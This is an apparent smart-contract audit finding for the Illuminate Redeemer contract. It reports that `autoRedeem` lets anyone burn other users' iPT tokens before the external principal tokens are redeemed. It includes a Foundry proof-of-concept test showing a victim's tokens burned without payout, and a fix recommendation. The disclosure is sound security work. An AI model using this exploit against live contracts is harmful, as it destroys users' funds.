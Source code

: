 Jeiwan

high

# Anyone can burn anyone else's iPT tokens

## Summary
Anyone can burn anyone else's iPT tokens
## Vulnerability Detail
In the `autoRedeem` function, iPT tokens are burned even when the `holdings` mapping is empty and the redeemed amount is 0 ([Redeemer.sol#L513-L528](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L513-L528)). The function allows anyone to redeem and burn anyone else's iPT tokens.
## Impact
An attacker can call the `autoRedeem` function and pass users' addresses after maturity but before the external PT tokens have been redeemed. This will burn users' iPT tokens but they won't get underlying tokens in exchange.
## Code Snippet
```solidity
// test/fork/Redeemer.t.sol
function testAutoRedeemExploit_AUDIT() public {
    deployMarket(Contracts.USDC, 0);

    address user = 0x7111F9Aeb2C1b9344EC274780dc9e3806bdc60Ef;
    address principalToken = mp.markets(Contracts.USDC, maturity, 0);

    deal(principalToken, user, startingBalance, true);

    // !!! External PT tokens haven't been redeemed.

    vm.startPrank(user);
    IERC20(Contracts.USDC).approve(address(r), startingBalance);
    vm.stopPrank();

    // user is the victim of the attack
    address[] memory onBehalfOf = new address[](1);
    onBehalfOf[0] = user;

    // The victim has iPT tokens before the attack.
    assertEq(IERC20(principalToken).balanceOf(user), startingBalance);

    // The attacker calls autoRedeem after maturity BUT before external PT tokens have been redeemed.
    r.autoRedeem(Contracts.USDC, maturity, onBehalfOf);

    // The victim hasn't received underlying tokens.
    assertEq(IERC20(Contracts.USDC).balanceOf(user), 0);
    // Victim's iPT tokens were burned.
    assertEq(IERC20(principalToken).balanceOf(user), 0);
}
```
## Tool used
Manual Review
## Recommendation
Ensure that iPT tokens can be redeemed only after external PT tokens have been redeemed.
